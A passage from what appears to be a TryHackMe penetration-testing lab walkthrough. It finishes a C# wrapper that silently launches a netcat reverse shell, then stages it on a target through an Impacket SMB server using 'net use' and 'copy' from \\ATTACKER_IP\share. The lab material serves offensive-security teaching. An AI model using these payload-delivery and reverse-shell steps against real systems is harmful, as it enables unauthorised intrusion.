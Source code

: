 _Make sure to replace the_ `nc-USERNAME.exe` _with the name of your own netcat executable, as well as slotting in your own IP and Port!_

With the objects created, we can now configure the process to not create it's own GUI Window when starting:  
`procInfo.CreateNoWindow = true;`  

Finally, we attach the `ProcessStartInfo` object to the process, and start the process!  
`proc.StartInfo = procInfo;   proc.Start();`  

Our program is now complete. It should look something like this:  
![Screenshot of the full program with syntax highlighting](https://assets.tryhackme.com/additional/wreath-network/1680d2c86ef0.png)  

We can now compile our program using the Mono `mcs` compiler. This is extremely simple using the package we installed earlier:  
`mcs Wrapper.cs`  
![Demonstration of compiling with the mcs Wrapper.cs command](https://assets.tryhackme.com/additional/wreath-network/f051e39d81f6.png)

Answer the questions below

Write and compile a wrapper program using Mono or Visual Studio.  

Transfer the `Wrapper.exe`   file to the target. Just to spice things up a bit, let's use an Impacket SMB server, rather than our usual HTTP server. If you would prefer to use the HTTP server and cURL (or another method to transfer the file) you are welcome to do so.

---

Impacket is a Python library that makes it very easy to interact with a wide variety of Windows services from Linux.  

First up, let's download the package:  
`sudo git clone https://github.com/SecureAuthCorp/impacket /opt/impacket && cd /opt/impacket && sudo pip3 install .   `

_**Note:** On the AttackBox Impacket is preinstalled at_ `/opt/impacket/impacket`

We can now start up a temporary SMB server:  
`sudo python3 /opt/impacket/examples/smbserver.py share . -smb2support -username user -password s3cureP@ssword`  
![Demonstration of what a successful Impacket SMB Server startup looks like. There should be a bunch of messages saying Config file parsed](https://assets.tryhackme.com/additional/wreath-network/99f9b77f1bf0.png)

With this command we created a server on our IP, serving a share called "share" in the current directory. As Impacket uses SMBv1 by default, we need to specify that is use SMBv2 in order for the relatively up-to-date target to accept it. We then set a username and password for connections to the server -- again, this is due to security policies on the target requiring connections to be authenticated.

Now, in our reverse shell, we can use this command to authenticate:  
`net use \\ATTACKER_IP\share /USER:user s3cureP@ssword`  
![Demonstration of the net use command. The result should include The command completed successfully](https://assets.tryhackme.com/additional/wreath-network/9a27791867af.png)  

This authenticates with the server using the credentials we set (`user:s3cureP@ssword`). We can now copy our compiled  `Wrapper.exe` program up to the target. Due to file permissions on the normal `C:\Windows\Temp` directory, we are doing this from our current user's own `%TEMP%` directory:  
`copy \\ATTACKER_IP\share\Wrapper.exe %TEMP%\wrapper-USERNAME.exe`  
![Confirmation that the copy operation was successful](https://assets.tryhackme.com/additional/wreath-network/857c1d682e0e.png)  
